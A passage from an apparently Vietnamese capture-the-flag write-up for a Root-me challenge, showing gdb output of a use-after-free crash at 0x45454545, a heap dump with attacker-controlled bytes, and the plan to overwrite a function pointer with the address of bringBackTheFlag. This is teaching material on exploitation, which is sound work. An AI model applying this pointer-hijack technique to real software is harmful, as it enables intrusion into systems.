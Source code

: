 ![](https://raw.githubusercontent.com/jkana/Writeup/main/Root-me/Images/4.JPG)
- Nhập 2 để gọi **bark**, chương trình sẽ crash khi gọi **bark**
```
Where do you build it?
BBBBCCCCDDDDEEEE
How do you name it?
FFFF
You build a new dog house.
1: Buy a dog
2: Make him bark
3: Bring me the flag
4: Watch his death
5: Build dog house
6: Give dog house to your dog
7: Break dog house
0: Quit
2

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```
- Kiểm tra heap ta thấy bark tới **0x45454545** và crash. Vì con trỏ không được reset nên nó vẫn trỏ tới **0x9595014** và ta hoàn toàn có thể kiểm soát được giá trị ở địa chỉ này.
```
(gdb)  x/50x 0x9595000
0x9595000:      0x00000000      0x00000021      0x42424242      0x43434343
0x9595010:      0x44444444      0x45454545      0x46464646      0x00000000
0x9595020:      0x00000000      0x00020fe1      0x00000000      0x00000000
```
- Mục tiêu là viết giá trị **0x080487cb** (**bringBackTheFlag**)vào địa chỉ **0x9595014** 
